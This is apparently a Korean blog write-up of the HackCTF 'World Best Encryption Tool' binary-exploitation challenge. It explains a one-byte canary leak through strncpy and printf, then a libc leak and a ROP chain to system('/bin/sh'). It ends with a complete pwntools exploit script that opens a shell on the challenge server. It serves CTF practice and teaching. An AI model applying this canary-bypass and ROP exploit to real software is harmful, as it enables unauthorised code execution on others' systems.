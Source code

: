 ```yaml
---
layout: post
title:  "HackCTF World Best Encryption Tool write-up"
date:   2020-03-16 19:45:55
image:  hackctf_encryption.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled.png)

이번 문제는 카나리가 추가로 설정되어있다.
<br><br><br>


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%201.png)

문자열을 입력하면, 해당 문자열이 암호화되어 출력된다. 그다음 다시 입력을 할 것인지 묻게 되는데 여기서 Yes를 입력하면 재입력이 가능하며 No를 누르면 다음과 같이 프로그램이 종료된다
<br><br><br>


**3) 코드 흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%202.png)

do - while 문이 보인다. 처음 src에 입력을 하고 해당 문자열을 0x31바이트만큼 xor 연산을 하게 된다. 그다음 dest에 0x39 사이즈 만큼 복사를 하고 해당 dest에 들어가 내용을 출력한다.

s1에 들어간 값이 Yes인지 No인지 strcmp() 를 이용하여 확인을 한다. Yes 입력시 다시 반복문을 실행하게 된다.
<br><br><br>




### 2. 접근방법

---

14라인의 scanf를 이용하여 BOF를 발생시킬수 있다. 하지만 현재 카나리가 걸려있다. 따라서 단순히 BOF를 일으키면 카나리 값이 변조되어 프로그램이 강제 종료가된다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%203.png)

위와 같이 stack smashing detected 되었다면서 종료가 된다.
<br><br><br>
이 카나리값만 알게 된다면 rbp-0x8 위치에 카나리를 넣고 ROP를 진행하면 될것으로 보인다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%204.png)

scanf로 src에 처음에 입력을 받고, src에 있는 데이터를 dest로 최대 0x39 바이트 만큼 복사가 이루어진다. 노란 영역이 복사될수 있는 최대영역인데, 카나라의 하위 한바이트를 변조 가능하다.

카나리는 하위 한바이트가 널값이기 때문에 만약 src에 들어있는 데이터가 0x38까지라면 strncpy를 통해 0x38바이트만 복사된다. 따라서 printf이 호출되면 널값이 존재하는 카나리 직전까지만 출력이 된다.
<br><br>
따라서 src에 0x39 만큼 입력을하면, dest에 0x39사이즈 만큼 복사가 이루어지고, 카나리의 하위 한바이트를 변경가능하다. 이를 통해  printf가 진행되면 카나리의 값을 leak할 수 있다.
<br><br><br>
![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%205.png)

0x38만큼 A를 입력하고 B를 하나 입력한 결과이다. 이렇게되면 printf되어 출력되는 데이터들을 받게 되는데 빨간동그라미가 한바이트 덮은 B이고 나머지가 카나리 값이다. 이를 이용하여 이제 ROP를 진행하면 된다. 여기서 카나리 값의 하위 1바이트를 0으로 만들어서 이용하면 끝이다.


<br><br><br>
- **시나리오**
    1. **libc 주소 leak하기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%206.png)

        처음에는 printf_got를 인자로 printf_plt를 호출하여 printf함수의 주소를 얻으려고 했지만, 이상하게 동작을 하지 않았다. 따라서 puts_got, Puts_plt를 이용하였는데도 이상하게 안돼서 scanf_got로 put_plt를 호출하니 이제서야됐다.

        !![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%207.png)
<br><br>
    2. **libc database로 libc버전 확인해서 오프셋 조지기**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20World%20Best%20Encryption%20Tool/Untitled%208.png)

        이제 ROP를 조지면 끝이다.



<br><br><br>

### 3. 풀이

---

& 연산으로 카나리 하위 1바이트를 다시 0으로 만들고 진행하였다.

처음 src에 값을 넣은뒤 strncpy가 진행되므로 카나리의 하위 1바이트의 널값이 변경되면 안됀다.
<br><br>
이를 고려하여 작성한 최종 익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3027)
#p=process("./World_best_encryption_tool")
e=ELF("./World_best_encryption_tool")
#gdb.attach(p)

p.recvuntil("Your text)\n")

payload="A"*0x38+"B"

p.sendline(payload)
p.recv(0x48)
canary=p.recv(8)
canary=u64(canary)

log.info("canary::")
log.info(hex(canary))
canary=canary&0xFFFFFFFFFFFFFF00
log.info(hex(canary))

pr=0x4008e3

p.recvuntil("(Yes/No)\n")
p.sendline("Yes")
p.recvuntil("Your text)\n")

payload2="A"*56
payload2+="\x00"
payload2+="B"*63
payload2+=p64(canary)
payload2+="C"*8
payload2+=p64(pr)
payload2+=p64(0x601048)
payload2+=p64(0x4005e0)
payload2+=p64(0x400727)
pause()
p.sendline(payload2)

p.recvuntil("(Yes/No)\n")
p.sendline("No")

tmp=p.recvline()
log.info(tmp)
scanf_addr=u64(tmp[0:6]+"\x00\x00")
log.info("scanf:"+hex(scanf_addr))

libc_base=scanf_addr-0x06b4d0
binsh=libc_base+0x18cd57
system_addr=libc_base+0x045390	
p.recvuntil("Your text)\n")

payload3="A"*56
payload3+="\x00"
payload3+="B"*63
payload3+=p64(canary)
payload3+="C"*8
payload3+=p64(pr)
payload3+=p64(binsh)
payload3+=p64(system_addr)
pause()
p.sendline(payload3)

p.recvuntil("(Yes/No)\n")
p.sendline("No")


p.interactive()
```



<br><br><br>
### 4. 몰랐던 개념

---

카나리의 하위 한바이트가 널값인지는 몰랐다.  아래 사이트에서 카나리 관련 개념을 좀 알아볼 필요가 있을 듯 싶다.

- [03.Canaries](https://www.lazenca.net/display/TEC/03.Canaries)

또한 이번 문제는 서버와 통신하는 타이밍 때문에 애좀 썻다.